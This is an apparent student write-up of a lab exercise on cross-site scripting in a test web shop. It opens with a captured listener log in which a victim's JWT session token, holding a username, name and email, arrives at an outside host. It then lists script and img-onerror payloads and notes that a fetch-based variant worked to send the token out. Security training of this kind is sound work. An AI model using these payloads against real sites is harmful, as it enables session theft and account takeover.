 ```
URL: http://50065b9f-1f0d-4b75-8c95-77244a799976.idocker.vuln.land/abcd?token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTY5Njc1MjIxMiwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.sh6qGjtpyCZ8K-pBwEdbrd4h_y2pFUcqb4M-_HgLwEo%22
METHOD: GET
IP: 10.20.0.1
Time: 2023-10-08 08:14:43
Headers:
Host: 50065b9f-1f0d-4b75-8c95-77244a799976.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Referer: https://fddb9b3c-a927-46fd-9053-2a2a08081091.idocker.vuln.land/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 51.154.62.18
X-Forwarded-Host: 50065b9f-1f0d-4b75-8c95-77244a799976.idocker.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: vm-docker-01.vuln.land
X-Real-Ip: 51.154.62.18


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTY5Njc1MjIxMiwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.sh6qGjtpyCZ8K-pBwEdbrd4h_y2pFUcqb4M-_HgLwEo%22'
===================================================
```

# SCHOGGI: Cross-Site Scripting (XSS) (Level 2)

- tried to test if javascript code is being reflected by adding the alert function in the comment section

```javascript
<script>alert("XSS");</script>
```

- as already mentioned in the task sheet, this does not work directly
- we tried to test the second suggested variant which worked

```html
<img src="x" onerror='alert("XSS")' />
```

- based on that we tested many variants
- the variant with `fetch` worked as intended
